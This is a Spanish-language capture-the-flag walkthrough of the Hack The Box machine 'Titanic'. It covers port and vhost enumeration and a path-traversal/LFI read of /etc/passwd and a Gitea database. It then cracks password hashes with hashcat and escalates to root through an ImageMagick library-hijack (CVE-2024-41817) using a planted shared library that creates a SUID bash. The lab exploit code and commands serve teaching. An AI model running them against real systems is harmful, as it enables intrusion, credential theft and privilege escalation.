




# Información

+ Nombre: Titanic
+ IP: 10.129.231.221
+ OS: Linux
+ Dificultad: Easy

# Enumeración

### Nmap

Primer escaneo:

```
nmap -p- -sS -Pn -n -vvv --open --min-rate 1000 -oG allports 10.129.231.221
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Escaneo detallado:

```
nmap -p22,80 -sCV -oN targeted 10.129.231.221
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`Nmap` revela el dominio `titanic.htb` que agrego al `/etc/hosts`.

## Web


Aplico fuerza bruta de directorios con `ffuf` pero no hay nada interesante.

En la pagina principal hay un botón que abre un formulario para crear tickets.

No es vulnerable a SSTI.


### Gobuster

Uso `gobuster vhost` para encontrar subdominios:

```
gobuster vhost -u http://titanic.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --append-domain | grep -vE "301|400"
```

```
Found: dev.titanic.htb Status: 200 [Size: 13982]
```

subdominio `dev.titanic.htb`.

En `dev.titanic.htb` se encuentra un gitea:



Existen dos repositorios del usuario `developer`:



En el `docker-compose.yml` de mysql hay dos contraseñas que pruebo en `ssh` por si acaso, pero no son validas.



En `flask-app` hay un script app.py.

app.py:

```
from flask import Flask, request, jsonify, send_file, render_template, redirect, url_for, Response
import os
import json
from uuid import uuid4

app = Flask(__name__)

TICKETS_DIR = "tickets"

if not os.path.exists(TICKETS_DIR):
    os.makedirs(TICKETS_DIR)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/book', methods=['POST'])
def book_ticket():
    data = {
        "name": request.form['name'],
        "email": request.form['email'],
        "phone": request.form['phone'],
        "date": request.form['date'],
        "cabin": request.form['cabin']
    }

    ticket_id = str(uuid4())
    json_filename = f"{ticket_id}.json"
    json_filepath = os.path.join(TICKETS_DIR, json_filename)

    with open(json_filepath, 'w') as json_file:
        json.dump(data, json_file)

    return redirect(url_for('download_ticket', ticket=json_filename))

@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)
```

parametro `ticket` en `titanic.htb/download` sin sanitizacion.

### LFI

```
curl 'http://titanic.htb/download?ticket=/etc/passwd'
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

usuario valido `developer`.

El directorio `/data` del contenedor de gitea esta mapeado al host en 
`/home/developer/gitea/data`:



obtengo la base de datos `gitea.db` a traves de `LFI`:

```
curl 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' -o gitea.db
```

tabla user:

```
sqlite3 gitea.db
```

```
sqlite> .tables
<...snip...>
language_stat              user                     
<...snip...>
```

hashes:

```
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
```

```
select passwd_hash_algo,salt,passwd from user where id = "2";
```

`id = "2"` porque pertenece al usuario developer.

```
pbkdf2$50000$50|8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
```

# Shell como developer

El salt y el hash están en hexadecimal, para convertirlos a un formato compatible con hashcat hice esto:

```
#!/usr/bin/python3

import base64

salt_hash = "8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56"

replace = salt_hash.replace("|", ":")

salt,hash = replace.split(":")

salt_bytes = bytes.fromhex(salt)
hash_bytes = bytes.fromhex(hash)

salt = base64.b64encode(salt_bytes).decode("utf-8")
hash = base64.b64encode(hash_bytes).decode("utf-8")

print(f"sha256:50000:{salt}:{hash}")
```

```
python3 script.py > hash
```

### Hashcat

```
hashcat -m 10900 -a 0 hash /usr/share/wordlists/rockyou.txt
```

```
<...snip...>
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
<...snip...>
```

Contraseña `25282528`.

`ssh`:

```
ssh developer@10.129.231.221
```

```
developer@titanic:~$ whoami
developer
```

flag `user.txt`:

```
developer@titanic:~$ cat user.txt
bf195af0b***********************
```
# PrivEsc

developer no puede usar sudo:

```
eveloper@titanic:/tmp$ sudo -l
[sudo] password for developer: 
Sorry, user developer may not run sudo on titanic.
```

Enumerando encuentro que en `/opt` hay un directorio `scripts`:

```
developer@titanic:/opt$ ls -l
total 12
drwxr-xr-x 5 root developer 4096 Feb  7 10:37 app
drwx--x--x 4 root root      4096 Feb  7 10:37 containerd
drwxr-xr-x 2 root root      4096 Feb  7 10:37 scripts
developer@titanic:/opt$ ls -l scripts
total 4
-rwxr-xr-x 1 root root 167 Feb  3 17:11 identify_images.sh
```

`identify_images.sh`:

```
developer@titanic:/opt$ cat scripts/identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

`cd /opt/app/static/assets/images` se mueve al directorio images.

`truncate -s 0 metadata.log` elimina el contenido de metadata.log.

`find /opt/app/static/assets/images/` busca archivos que terminen en .jpg.

`xargs /usr/bin/magick identify >> metadata.log` pasa la lista de archivos al comando magick, magick identify muestra información de la imagen y la guarda en metadata.log.

Version de magick:

```
developer@titanic:/opt$ magick -version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

### CVE-2024–41817

Mas Información [aqui](https://mindpatch.medium.com/cve-2024-41817-how-env-var-triggers-rce-in-imagemagicks-appimage-14d54aba5613)

La vulnerabilidad se encuentra en las variables de entorno `MAGICK_CONFIGURE_PATH` y `LD_LIBRARY_PATH`

El problema en Apprun se origina en estas lineas del script:

```
export MAGICK_CONFIGURE_PATH=$(readlink -f "$HERE/usr/lib/ImageMagick-7.0.9/config-Q16"):$(readlink -f "$HERE/usr/lib/ImageMagick-7.0.9/config-Q16HDRI"):$(readlink -f "$HERE/usr/share/ImageMagick-7"):$(readlink -f "$HERE/usr/etc/ImageMagick-7"):$MAGICK_CONFIGURE_PATH

export LD_LIBRARY_PATH=$(readlink -f "$HERE/usr/lib"):$LD_LIBRARY_PATH  
export LD_LIBRARY_PATH=${HERE}/usr/lib/ImageMagick-7.0.9/modules-Q16HDRI/coders:$LD_LIBRARY_PATH
```

Como los directorios no existen, `readlink -f` devuelve una cadena vacía. 

`MAGICK_CONFIGURE_PATH` causando que ImageMagick busque en el directorio actual.

`LD_LIBRARY_PATH` hace posible cargar librerías maliciosa en el directorio actual.

### Librería compartida Maliciosa

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF  
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
__attribute__((constructor)) void init(){  
    system("id");  
    exit(0);  
}  
EOF
```

```
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF

developer@titanic:/opt/app/static/assets/images$ ls -l libxcb.so.1
-rwxrwxr-x 1 developer developer 15616 Jul 17 20:33 libxcb.so.1
```

Al ejecutar magick debe ejecutar id:

```
developer@titanic:/opt/app/static/assets/images$ magick /dev/null /dev/null
uid=1000(developer) gid=1000(developer) groups=1000(developer)
```

Cambio `id` por `whoami > /tmp/whoami.txt` para saber si root es el que ejecuta el script:

La librería se debe crear en `/opt/app/static/assets/images` que es donde el script ejecuta magick.

Espero a que se ejecute:

```
developer@titanic:/opt/app/static/assets/images$ cat /tmp/whoami.txt
root
```

### Shell como root

```
cp /bin/bash /tmp/cangrejo.sh && chmod u+s /tmp/cangrejo.sh
```

```
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("cp /bin/bash /tmp/cangrejo.sh && chmod u+s /tmp/cangrejo.sh");
    exit(0);
}
EOF
```

Copia de bash creada por root con permisos SUID:

```
developer@titanic:/opt/app/static/assets/images$ ls -l  /tmp/cangrejo.sh
-rwsr-xr-x 1 root root 1396520 Jul 17 20:51 /tmp/cangrejo.sh
```

```
/tmp/cangrejo.sh -p
```


```
cangrejo.sh-5.1# whoami
root
```

flag `root.txt`:

```
cangrejo.sh-5.1# cat /root/root.txt
07b8028da***********************
```

# 🦀
